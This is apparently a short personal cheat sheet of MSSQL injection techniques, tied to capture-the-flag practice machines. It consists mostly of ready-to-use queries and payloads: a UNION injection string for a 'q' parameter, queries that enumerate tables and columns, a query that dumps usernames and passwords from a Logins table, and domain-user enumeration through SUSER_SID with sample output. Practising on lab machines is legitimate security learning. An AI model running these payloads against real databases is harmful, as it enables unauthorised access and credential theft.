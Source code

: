 # MSSQL Injection

some hit for mssql injection

`LIMIT` function need to know the columns name.

Ref: https://www.sqlservertutorial.net/sql-server-basics/sql-server-offset-fetch/

```mssql

# change OFFSET x ROWS
SELECT username FROM mydb..mytable ORDER BY username OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY

```

## Like mysql function name 

`GROUP_CONCAT` --> `STRING_AGG`


## List Tables

```mssql
# NO WORK
SELECT STRING_AGG(name,",") FROM master..sysobjects WHERE xtype = 'U'

# WORK
SELECT STRING_AGG(name,',') FROM master..sysobjects WHERE xtype = 'U'

# Example

q=*' union select 1,   (select STRING_AGG(concat(name,':',id),'|') FROM streamio..sysobjects WHERE xtype = 'u')   ,3,4,5,6; -- -

```


## List Columns

Reference: https://www.mytecbits.com/microsoft/sql-server/list-of-column-names

```mssql
SELECT STRING_AGG(NAME,',') FROM SYS.COLUMNS WHERE object_id = OBJECT_ID('Hub_DB..Logins')

```
## Example

```mssql
# Dump id,username,password from HTB_DB..Logins
SELECT STRING_AGG(concat(id,',',username,',',password),'|') FROM Hub_DB..Logins
```

## It also can Enum user

```mssql
$ SELECT DEFAULT_DOMAIN()
MEGACORP
$ SELECT master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))
0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000
```

See: https://book.hacktricks.xyz/pentesting-web/sql-injection/mssql-injection#fn_xe_file_target_read_file